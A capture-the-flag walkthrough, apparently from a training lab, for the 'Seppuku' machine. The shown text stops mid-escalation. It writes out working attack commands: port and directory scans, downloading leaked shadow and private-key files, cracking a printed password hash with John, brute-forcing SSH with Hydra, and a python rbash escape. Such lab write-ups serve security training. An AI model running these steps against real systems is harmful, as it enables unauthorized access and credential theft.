# Proving Grounds Play — Seppuku | Full Walkthrough

> **Machine:** Seppuku
> **Difficulty:** Easy (Linux)
> **Author:** TrieuVI
> **Platform:** Offensive Security — Proving Grounds Play

---

## Table of Contents

1. [Overview](#1-overview)
2. [Reconnaissance — Nmap Scan](#2-reconnaissance--nmap-scan)
3. [Service Enumeration](#3-service-enumeration)
4. [Web Enumeration — Port 7601](#4-web-enumeration--port-7601)
5. [Sensitive File Discovery](#5-sensitive-file-discovery)
6. [SSH Brute Force & Initial Access](#6-ssh-brute-force--initial-access)
7. [Privilege Escalation — Lateral Movement to Samurai](#7-privilege-escalation--lateral-movement-to-samurai)
8. [Privilege Escalation — Root via Sudo Misconfiguration](#8-privilege-escalation--root-via-sudo-misconfiguration)
9. [Flags & Answers Summary](#9-flags--answers-summary)
10. [Attack Chain Summary](#10-attack-chain-summary)
11. [Tools Used](#11-tools-used)

---

## 1. Overview

**Seppuku** is an Easy-rated Linux machine on Offensive Security Proving Grounds Play. The attack path involves enumerating multiple open HTTP ports, discovering sensitive files (credentials, RSA private keys, password lists) exposed on a misconfigured Apache web server on port 7601, brute-forcing SSH credentials, bypassing a restricted bash shell (`rbash`), reading a hidden `.passwd` file to pivot to another user, and finally escalating to root by exploiting a `sudo NOPASSWD` rule tied to a user-controlled binary path.

**Attack Path:**
```
Nmap scan → Multiple open ports: 21 (FTP), 22 (SSH), 80 (HTTP/401), 139/445 (SMB), 7601 (HTTP), 8088 (HTTP)
→ SMB anonymous: only IPC$ and print$ — no useful data
→ FTP anonymous: LOGIN FAILED
→ Port 80: HTTP Basic Auth (nginx 401) — no credentials yet
→ Gobuster on port 7601 → /secret and /keys directories discovered
→ /secret/hostname → "seppuku" (confirmed username)
→ /secret/passwd.bak → full /etc/passwd leaked
→ /secret/shadow.bak → r@bbit-hole hash cracked → a1b2c3 (SSH fails — @ invalid in Linux username)
→ /secret/password.lst → custom password wordlist
→ /keys/private → RSA private key (for user tanto)
→ Hydra SSH brute force: seppuku:eeyoree ✓
→ SSH as seppuku → local.txt ✓
→ rbash restricted shell → bypass with python3
→ cat ~/.passwd → 12345685213456!@!@A (samurai's password)
→ su samurai → access samurai
→ sudo -l → (ALL) NOPASSWD: /../../../../../../home/tanto/.cgi_bin/bin /tmp/*
→ SSH as tanto with RSA key → create malicious /home/tanto/.cgi_bin/bin (/bin/bash)
→ Back as samurai: sudo exploit → root shell ✓
→ proof.txt ✓
```

**Lab Environment:**

| Detail | Value |
|---|---|
| Target IP | `192.168.197.90` |
| Machine Name | `seppuku` |
| OS | Debian GNU/Linux (kernel 4.19.118-2 amd64) |
| Open Ports | 21, 22, 80, 139, 445, 7080, 7601, 8088 |
| Hostname | `SEPPUKU` |
| Attacker | Kali Linux |

---

## 2. Reconnaissance — Nmap Scan

### 2.1 Quick Full-Port Scan

```bash
nmap -Pn -p- --min-rate 5000 192.168.197.90
```



**Port Summary:**

| Port | Service | Notes |
|---|---|---|
| 21 | FTP | vsFTPd 3.0.3 |
| 22 | SSH | OpenSSH 7.9p1 Debian |
| 80 | HTTP | nginx 1.14.2 — 401 Unauthorized |
| 139/445 | SMB | Samba 4.9.5-Debian |
| 7080 | HTTPS | LiteSpeed — redirects to itself |
| 7601 | HTTP | Apache 2.4.38 — **Main target** |
| 8088 | HTTP | LiteSpeed httpd |

### 2.2 Detailed Service & Version Scan

```bash
nmap -sC -sV -A -Pn -p 21,22,80,139,445,7080,7601,8088 192.168.197.90
```



**Key findings:**
- Port 22: OpenSSH 7.9p1 Debian 10+deb10u2
- Port 80: nginx 1.14.2 — `401 Unauthorized`, `Basic realm=Restricted Content`
- Port 7601: Apache httpd 2.4.38 — title: **Seppuku**
- Port 8088: LiteSpeed httpd — title: **Seppuku**
- SMB: Computer name: `seppuku`, NetBIOS: `SEPPUKU`

> 💡 **Key observation:** Hostname is `SEPPUKU` — strong hint that `seppuku` is a valid SSH username. Port 80 requires HTTP Basic Auth with no credentials available yet.

---

## 3. Service Enumeration

### 3.1 SMB — Anonymous Login

```bash
smbclient -L //192.168.197.90 -N
```



> ❌ Only `print$` and `IPC$` available. No readable data accessible anonymously.

### 3.2 FTP — Anonymous Login

```bash
ftp 192.168.197.90
# Name: anonymous
```



> ❌ Anonymous FTP login denied by vsFTPd 3.0.3.

### 3.3 Port 80 — HTTP Basic Auth



Browsing `http://192.168.197.90` triggers an HTTP Basic Authentication popup (nginx). No credentials available yet — move on.

---

## 4. Web Enumeration — Port 7601

### 4.1 Directory Brute-Force on Port 7601

```bash
gobuster dir -u http://192.168.197.90:7601 \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -x php,html,txt -t 50
```



**Key findings:**
```
/keys           (Status: 301) [Size: 322]  ← RSA Keys!
/secret         (Status: 301) [Size: 324]  ← Sensitive files!
/production     (Status: 301) [Size: 328]
/database       (Status: 301) [Size: 326]
/stg            (Status: 301) [Size: 321]
/server-status  (Status: 403)
```

> 🔍 `/secret` and `/keys` are the highest-value targets.

### 4.2 Directory Brute-Force on Port 8088

```bash
gobuster dir -u http://192.168.197.90:8088 \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -x php,html,txt -t 50
```



> Findings: `/cgi-bin`, `/docs`, `/blocked` — nothing immediately exploitable.

### 4.3 Browsing `/production`



`http://192.168.197.90:7601/production/` — static Bootstrap template. No exploitable functionality.

---

## 5. Sensitive File Discovery

### 5.1 Browsing `/secret` Directory



`http://192.168.197.90:7601/secret/` — Apache directory listing **enabled**:

```
hostname         2020-05-13 03:41     8
jack.jpg         2018-09-12 03:49   58K
passwd.bak       2020-05-13 03:47   2.7K
password.lst     2020-05-13 03:59   672
shadow.bak       2020-05-13 03:48   1.4K
```

### 5.2 `hostname` — Username Hint



```
http://192.168.197.90:7601/secret/hostname → seppuku
```

> 💡 Hostname is `seppuku` — confirmed SSH username target.

### 5.3 `passwd.bak` — Full /etc/passwd Leaked

```bash
curl http://192.168.197.90:7601/secret/passwd.bak
```



Non-system accounts with `/bin/bash`:
```
root:x:0:0:root:/root:/bin/bash
rabbit-hole:x:1001:1001:,,,:/home/rabbit-hole:/bin/bash
```

### 5.4 `shadow.bak` — Password Hash

```bash
curl http://192.168.197.90:7601/secret/shadow.bak
```



Crackable hash entry:
```
r@bbit-hole:$6$2/SxUdFc$Es9XfSBlKCG8fadku1zyt/HPTYz3Rj7m4bRzovjHxX4WmIMO7rz4j/auR/V.yCPy2MKBLBahX29Y3DWkR6oT..:18395:0:99999:7:::
```

**Crack with John the Ripper:**

```bash
echo 'r@bbit-hole:$6$2/SxUdFc$Es9XfSBlKCG8fadku1zyt/...' > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
john --show hash.txt
```



**Result:** `r@bbit-hole:a1b2c3`

> ❌ Password `a1b2c3` cracked — but SSH as `r@bbit-hole` fails because `@` is invalid in Linux shell usernames. Dead end for direct SSH.

### 5.5 `password.lst` — Custom Password Wordlist



```bash
curl http://192.168.197.90:7601/secret/password.lst -o password.txt
```

Contains 100+ passwords including `eeyoree` — the winning SSH password.

### 5.6 `/keys` — RSA Private Key



`http://192.168.197.90:7601/keys/` — directory listing exposed with `private` (1.6K) and `private.bak` (1.6K).



```bash
curl http://192.168.197.90:7601/keys/private -o id_rsa
chmod 600 id_rsa
```

> 💡 This RSA private key belongs to user `tanto` (confirmed later by matching `authorized_keys` in `/home/tanto/.ssh/`).

---

## 6. SSH Brute Force & Initial Access

### 6.1 Prepare Wordlists & Run Hydra

```bash
echo -e "seppuku\nrabbit-hole" > username.txt
hydra -L username.txt -P password.txt ssh://192.168.197.90 -t 4 -V
```





> ✅ **Valid credential found:** `seppuku:eeyoree`

### 6.2 SSH Login & Get Local Flag

```bash
ssh seppuku@192.168.197.90
# Password: eeyoree
```



```
seppuku@seppuku:~$ cat local.txt
47ca5decf4c77445da03316810898958
```

> 🚩 **Local Flag (local.txt):** `47ca5decf4c77445da03316810898958`

---

## 7. Privilege Escalation — Lateral Movement to Samurai

### 7.1 Enumerate Home — Hidden `.passwd` File

```bash
seppuku@seppuku:~$ ls -la
seppuku@seppuku:~$ cat .passwd
```



```
-rw-r--r-- 1 root root 20 May 13 2020 .passwd
Contents: 12345685213456!@!@A
```

> 💡 World-readable `.passwd` owned by root — this is samurai's password. Also note: `rbash` blocks navigation (`cd ..` is restricted).

### 7.2 Bypass rbash & Switch to Samurai

```bash
# Escape rbash
python3 -c 'import os; os.system("/bin/bash")'

# Navigate and switch user
cd ..
su samurai
# Password: 12345685213456!@!@A
```

